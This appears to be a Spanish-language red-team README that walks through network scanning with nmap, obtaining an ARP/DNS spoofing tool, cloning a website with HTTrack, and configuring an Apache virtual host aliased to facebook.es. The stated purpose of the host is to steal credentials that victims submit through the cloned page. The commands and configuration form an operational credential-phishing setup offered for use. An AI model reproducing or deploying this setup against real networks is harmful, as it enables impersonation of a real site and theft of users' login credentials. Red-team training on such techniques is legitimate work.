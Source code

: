 # Fase de reconocimiento Red Team

## 1. Obtener lista de hosts dentro de la red

* Escanear todos los hosts activos en tu subred
```bash
sudo nmap -sn 10.0.2.0/24           
```
* Escanear los puertos UDP y TCP mas comunes y mostrar los servicios que ellos corren
```bash
sudo nmap -sS -sU -sV -p 20-25,80,443,8080 IP
```

# Fase de preparación Red Team

* Configuración herramienta para realizar el ARP y DNS Spoofing
 ```bash
git clone https://github.com/Maalfer/spoofy.git
```

* Configuración herramienta para copiar la página web original
```bash
#Actualiza los paquetes del sistema:
sudo apt update

#Instala HTTrack
sudo apt install httrack

#Verifica la instalación 
httrack --version

#Sintaxis para copiar página web
httrack <URL_DEL_SITIO> -O <CARPETA_DE_DESTINO> [OPCIONES]
```
* Configuración del servidor malicioso
  
  * 🔧 Requisitos Previos
    - Kali Linux actualizado
    - Acceso de superusuario (`sudo su` o comandos con `sudo`)
    - Conexión a internet para instalar paquetes
      
  * Actualizar Sistema e Instalar Apache
    ```bash
    sudo apt update
    sudo apt upgrade -y
    sudo apt install apache2 -y
    ```
  
  * Iniciar y Habilitar Apache
    ```bash
    sudo systemctl start apache2
    sudo systemctl status apache2  # Verificar que esté activo (running)
    ```

    * Crear directorio para tu sitio web
    ```bash
    sudo mkdir -p /var/www/mi_sitio/public_html
    sudo chown -R $USER:$USER /var/www/mi_sitio/public_html
    sudo chmod -R 755 /var/www/mi_sitio/public_html
    ```
    
    * Crear página web: introduce el index.html creado por httrack en el directorio que creamos 
    anteriormente, modificala para que cuando el usuario introduzca sus credenciales se manden por 
    medio de una petición post y sean tomandas por la herramienta de spoofer
    

   * Configurar Virtual Host para que permita peticiones post y poder robar las credenciales
    ```bash
    sudo nano /etc/apache2/sites-available/mi-sitio.conf

    #Dentro de nano pega:
    <VirtualHost *:80>
        ServerName www.atacante.local
        ServerAlias facebook.es
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/my_sites/public_html

        <Directory "/var/www/my_sites/public_html">
            Options Indexes FollowSymLinks
            AllowOverride All
            Require all granted
        </Directory>

        # --- AQUÍ EMPIEZA LA CONFIGURACIÓN CORREGIDA ---

        # Configuración CORS
        <IfModule mod_headers.c>
            # En la siguiente línea dentro de los "" colocas la url de origen que quieres permitir
            Header set Access-Control-Allow-Origin "" 
            Header set Access-Control-Allow-Methods "GET, POST, OPTIONS"
            Header set Access-Control-Allow-Headers "Content-Type, Authorization"
            Header set Access-Control-Max-Age "86400"
            # Opcional: Caché de la pre-verificación OPTIONS por 24 horas
        </IfModule>

        # Para manejar las peticiones OPTIONS de pre-verificación
        RewriteEngine On
        RewriteCond %{REQUEST_METHOD} OPTIONS
        RewriteRule ^(.*)$ $1 [R=200,L]

        # --- AQUÍ TERMINA LA CONFIGURACIÓN CORREGIDA ---

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
    </VirtualHost>
    ```
    
    * Montar servidor
    ```bash
    sudo a2dissite *
    sudo a2ensite mi-sitio.conf
    sudo a2enmod headers
    sudo a2enmod rewrite
    sudo systemctl restart apache2
    sudo systemctl restart apache2
    ```
    * Probar servidor
       -  En la url del navegador coloca la tu ip local y ve si se muestra tu página

# Fase de ataque:

* Usar todas las herramientas para llegar al objetivo
